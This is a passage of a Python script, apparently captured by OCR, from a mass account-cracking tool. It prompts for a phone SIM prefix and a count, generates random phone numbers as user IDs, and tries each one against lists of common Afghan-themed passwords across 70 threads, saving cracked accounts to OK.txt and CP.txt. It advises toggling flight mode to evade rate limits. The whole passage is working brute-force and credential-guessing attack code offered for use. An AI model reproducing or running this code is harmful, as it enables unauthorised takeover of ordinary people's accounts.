         lines()
        for guru in user:
            uid = kode+guru
            pwx=[guru,'Afghan123','Afghanistan','Afghan12345','kabul123','Ahmad123']
            yaari.submit(rcrack,uid,pwx,tl)
    print(46*'-')
    print('IDZ SAVED IN OK.txt : CP.txt')
    print(46*'-')
    print('The Process Has Been Complete')
    print('Press Enter to Back');riaz()
def m3():
    user=[]
    os.system('clear')
    print(logo)
    print('[+] Example  : 9370,9378,9379,9377,9374,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Sim Code ')
    lines()
    kode = input('[+] Your Code : ')
    lines()
    os.system('clear')
    print(logo)
    print('[+] Example  : 1000,2000,3000,5000,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Idz  Lemit ')
    lines()
    limit = int(input('[+] Idz Lemit : '))
    print(46*'-')
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=70) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' Total Acounts : '+tl)
        print(' Selected Code :\x1b[1;92m '+kode)
        print('\x1b[1;91m If you no result use flight mode')
        lines()
        for guru in user:
            uid = kode+guru
            pwx=[guru,'Afghan123','Afghanistan','Afghan12345','kabul123','Ahmad123','123456','۱۲۳۴۵۶۷۸۹','۱۲۳۴۵۶','900900','500500','200300','100200','700800','10002000','khan123','khan1234','khan12345','afghan1234','kabul1234','afghanistan123','afghanistan','khankhan']
            yaari.submit(rcrack,uid,pwx,tl)
    print(46*'-')
    print('IDZ SAVED IN OK.txt : CP.txt')
    print(46*'-')
    print('The Process Has Been Complete')
    print('Press Enter to Back');riaz()

def b1():
    user=[]
    os.system('clear')
    print(logo)
    print('[+] Example  : 92345,92306,92303,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Sim Code ')
    lines()
    kode = input('[+] Your Code : ')
    lines()
    os.system('clear')
    print(logo)
    print('[+] Example  : 1000,2000,3000,5000,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Idz  Lemit ')
    lines()
    limit = int(input('[+] Idz Lemit : '))